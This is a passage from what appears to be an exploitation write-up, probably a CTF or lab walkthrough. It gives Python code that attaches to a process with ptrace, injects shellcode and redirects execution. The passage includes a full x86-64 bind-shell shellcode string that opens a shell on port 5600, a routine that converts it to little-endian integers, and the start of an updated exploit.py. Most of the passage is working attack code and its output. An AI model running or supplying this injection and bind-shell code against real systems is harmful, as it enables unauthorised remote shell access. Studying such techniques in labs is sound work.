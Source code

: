 ```python
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
This exploit creates a bind shell on port 5600.

### Modifying the exploit to get the final value
```python
>>> import ctypes
>>> import sys
>>> import struct
>>> shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"
>>> 
>>> final = []
>>> for i in xrange(0,len(shellcode),4):
...  
...   # Convert the byte to little endian.
...   shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
...   shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
...   shellcode_byte=int(shellcode_byte_little_endian,16)
...   final.append(shellcode_byte)
... 
>>> final
[1220555080, 826855985, 1791426550, 40523817, 1208291167, 1711434391, 35931335, 1582620693, 1479633490, 257560682, 845831685, 1778716504, 84891691, 57317192, 2966355806, 1963265825, 1390868472, 1647295304, 791637609, 1213425779, 2955164813, 331579]
```
Now we just have to put this value to our new exploit.py.

### Updated exploit.py
```python
import ctypes
import sys
import struct

PTRACE_POKETEXT   = 4
PTRACE_GETREGS	= 12
PTRACE_SETREGS	= 13
PTRACE_ATTACH 	= 16
PTRACE_DETACH 	= 17

class user_regs_struct(ctypes.Structure):
	_fields_ = [
    	("r15", ctypes.c_ulonglong),
    	("r14", ctypes.c_ulonglong),
    	("r13", ctypes.c_ulonglong),
    	("r12", ctypes.c_ulonglong),
    	("rbp", ctypes.c_ulonglong),
```
